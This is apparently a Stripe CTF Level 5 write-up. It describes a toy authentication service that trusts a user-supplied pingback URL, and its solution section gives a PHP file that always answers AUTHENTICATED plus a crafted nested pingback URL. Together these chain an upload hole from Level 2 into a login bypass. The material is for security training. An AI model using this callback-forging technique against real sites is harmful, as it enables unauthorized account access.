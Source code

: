 ## Level 5

Many attempts have been made at creating a federated identity system for the web (see [OpenID](http://openid.net/), for example). However, none of them have been successful. Until today.

The DomainAuthenticator is based off a novel protocol for establishing identities. To authenticate to a site, you simply provide it username, password, and pingback URL. The site posts your credentials to the pingback URL, which returns either `AUTHENTICATED` or `DENIED`. If `AUTHENTICATED`, the site considers you signed in as a user for the pingback domain.

You can check out the Stripe CTF DomainAuthenticator instance here: https://level05-1.stripe-ctf.com/user-xxxxxxxxxx. We've been using it to distribute the password to access Level 6. If you could only somehow authenticate as a user of a level05 machine...

To avoid nefarious exploits, the machine hosting the DomainAuthenticator has very locked down network access. It can only make outbound requests to other stripe-ctf.com servers. Though, you've heard that someone forgot to internally firewall off the high ports from the Level 2 server.

Interesting in setting up your own DomainAuthenticator? You can grab the source from `git clone https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/level05-code`, or by reading on below.

### Running

- Install bundler: 'gem install bundler'
- Run srv.rb: './srv.rb'
- Point your browser to localhost:4567

### Solution

  * Upload the following `index.php` PHP to your endpoint from Level 2:
  
  ```php
  #!/usr/bin/env php
  <?php
  echo "AUTHENTICATED\n";
  ```
  * Set `pingback` to `https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/?pingback=https://level02-1.stripe-ctf.com/user-xxxxxxxxxx/uploads/`

Originally posted at [https://stripe-ctf.com/levels/5](https://stripe-ctf.com/levels/5).
